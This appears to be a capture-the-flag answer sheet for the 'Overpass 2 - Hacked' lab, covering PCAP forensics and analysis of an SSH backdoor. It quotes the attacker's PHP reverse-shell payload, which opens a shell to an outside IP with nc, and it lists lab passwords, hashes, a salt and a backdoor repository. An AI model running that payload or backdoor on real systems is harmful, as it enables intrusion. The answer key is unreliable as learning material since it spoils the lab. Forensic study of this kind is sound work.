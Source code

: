 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## Task 1 - *Forensics - Analyse the PCAP*

What was the URL of the page they used to upload a reverse shell? \
**Mindset:** \
**Answer:** `/development/` \
**Explaination:**

What payload did the attacker use to gain access? \
**Mindset:** \
**Answer:** `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`\
**Explaination:**

What password did the attacker use to privesc? \
**Mindset:** \
**Answer:** `whenevernoteartinstant` \
**Explaination:**

How did the attacker establish persistence? \
**Mindset:** \
**Answer:** `https://github.com/NinjaJc01/ssh-backdoor` \
**Explaination:**

Using the fasttrack wordlist, how many of the system passwords were crackable? \
**Mindset:** \
**Answer:** `4` \
**Explaination:**

## Task 2 - *Research - Analyse the code*

What's the default hash for the backdoor? \
**Mindset:** \
**Answer:** `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` \
**Explaination:**

What's the hardcoded salt for the backdoor? \
**Mindset:** \
**Answer:** `1c362db832f3f864c8c2fe05f2002a05` \
**Explaination:**

What was the hash that the attacker used? - go back to the PCAP for this! \
**Mindset:** \
**Answer:** `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` \
**Explaination:**

Crack the hash using rockyou and a cracking tool of your choice. What's the password? \
**Mindset:** \
**Answer:** `november16` \
**Explaination:**
